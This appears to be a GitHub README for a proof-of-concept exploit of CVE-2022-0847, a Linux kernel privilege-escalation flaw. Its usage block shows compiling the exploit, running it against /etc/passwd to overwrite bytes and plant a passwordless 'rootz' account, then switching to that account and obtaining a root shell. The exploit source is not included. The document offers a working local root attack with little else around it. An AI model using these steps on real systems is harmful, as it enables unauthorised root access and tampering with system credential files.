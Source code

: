 # CVE_2022_0847
CVE-2022-0847: Linux Kernel Privilege Escalation Vulnerability

---
## POC

A Simple Proof of concept to get root shell.

```bash
$ gcc cve_2022_0847.c -o exploit
$ ./exploit /etc/passwd 1 ootz:
$ su rootz
# id
uid=0(root) gid=0(root) groups=0(root)
```
